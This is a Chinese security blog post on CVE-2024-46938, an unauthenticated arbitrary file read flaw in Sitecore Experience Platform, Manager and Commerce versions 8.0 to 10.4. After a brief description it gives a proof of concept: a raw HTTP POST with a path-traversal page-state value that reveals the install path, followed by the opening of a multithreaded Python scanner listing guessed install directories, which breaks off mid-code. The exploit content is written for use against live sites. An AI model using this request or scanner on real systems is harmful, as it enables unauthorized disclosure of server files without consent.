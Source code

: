 #  CVE-2024-46938｜Sitecore CMS未经身份验证任意文件读取漏洞（POC）   
alicy  信安百科   2024-11-30 10:00  
  
**0x00 前言**  
  
  
Sitecore Experience Platform™ (XP) 是一款基于.NET WebForm技术构建的内容管理系统，可以将客户数据、分析、人工智能与营销自动化功能相结合，在任何渠道上实时提供个性化的内容，从而在客户旅程中与客户建立良好的关系。  
  
  
  
**0x01 漏洞描述**  
  
  
在无需登陆的情况下构造恶意请求读取任意文件。  
  
  
  
**0x02 CVE编号**  
  
  
CVE-2024-46938  
  
  
  
**0x03 影响版本**  
  
  
在Sitecore Experience Platform（XP）、Experience Manager（XM）和Experience Commerce（XC）8.0初始版本至10.4初始版本中发现了问题。  
  
  
  
**0x04 漏洞详情**  
  
  
POC：  
  
获取网站安装路径：  
```
POST /-/xaml/Sitecore.Shell.Applications.ContentEditor.Dialogs.EditHtml.ValidateXHtml?hdl=a HTTP/2
Host: sitecoresc.dev.local
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
__PAGESTATE=/../../a/
```  
  
```
import argparse
import requests
import tldextract
import urllib3
import re
from tqdm import tqdm
from concurrent.futures import ThreadPoolExecutor, as_completed
from datetime import datetime
from typing import List, Optional
urllib3.disable_warnings()
class FileDisclosureScanner:
    def __init__(self):
        self.results = []
        self.fixed_paths = [
            r"C:\\inetpub\\wwwroot\\sitecore\\",
            r"C:\\inetpub\\wwwroot\\sitecore1\\",
            r"C:\\inetpub\\wwwroot\\sxa\\",
            r"C:\\inetpub\\wwwroot\\XP0.sc\\",
            r"C:\\inetpub\\wwwroot\\Sitecore82\\",
            r"C:\\inetpub\\wwwroot\\Sitecore81\\",
```